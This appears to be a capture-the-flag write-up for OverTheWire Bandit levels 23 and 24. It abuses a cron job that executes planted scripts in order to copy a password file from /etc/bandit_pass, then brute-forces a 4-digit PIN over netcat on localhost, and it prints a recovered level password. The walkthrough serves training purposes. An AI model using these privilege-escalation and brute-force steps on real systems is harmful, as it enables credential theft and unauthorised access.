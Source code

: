 ```bash
```
### **Bandit 23** 
```bash
$ cd /etc/cron.d/
$ ls
cronjob_bandit22  cronjob_bandit24  otw-tmp-dir
cronjob_bandit23  e2scrub_all       sysstat
$ cat cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
From the script above we can see that all the scripts in `/var/spool/bandit24/foo` that are owned by me "bandit23" are being executed before being deleted. meaning that if i create a script there then it will run.
```bash
$ cd /var/spool/bandit24/foo
$ echo "cat /etc/bandit_pass/bandit24 > /tmp/password24" > /var/myscript.sh 
$ chmod +x myscript.sh
```
Wait a bit for the script to execute then check.
```bash
$ cat /tmp/password24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
### **Bandit 24** -------------------------------
We need to send the password to `localhost` on port `30002`, which can be done by: 
```bash
$ echo "password" | netcat localhost 30002
```
But the password is of the following format
```
<bandit_24_password> <PIN>
```
Where `PIN` could be any 4-digit pin code. So we're going to [[Brute Force]] the password.
```bash
$ vim /tmp/myshit.sh
for i in {0..9999}; do 
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i";
done | nc localhost 30002
$ chmod +x /tmp/myshit.sh
$ /tmp/myshit.sh
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
...SNIP...
Correct!
```